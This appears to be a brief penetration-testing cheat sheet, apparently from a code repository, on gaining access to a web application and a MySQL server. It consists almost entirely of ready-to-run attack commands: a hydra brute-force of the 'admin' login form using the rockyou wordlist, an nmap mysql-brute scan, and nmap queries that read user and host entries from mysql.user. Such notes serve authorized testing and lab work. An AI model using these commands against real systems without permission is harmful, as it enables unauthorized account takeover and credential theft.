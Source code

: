 # Access

[WebApp](#webapp)

[MySQL](#mysql)

## WebApp

**brute-force password for user 'admin' via hydra:**
```
hydra -s <port> -I -l admin -P /usr/share/wordlists/rockyou.txt <ip> http-post-form '/index.php:tg=login&referer=index.php&user=^USER^&password=^PASS^&submit_login=Submit:F=bad+passowrd' -vV
```

## MySQL

**brute-force via nmap:**
```
nmap --script mysql-brute -p 3306 <ip>
```

**fire a query via nmap:**
```
nmap --script mysql-query --script-args "mysql-query.query='SELECT host, user FROM mysql.user', mysql-query.username=admin, mysql-query.password=admin"  -p3306 <ip>

- or -

nmap --script mysql-query --script-args-file $(pwd)/mysql-query-args.txt -p3306 <ip>
```
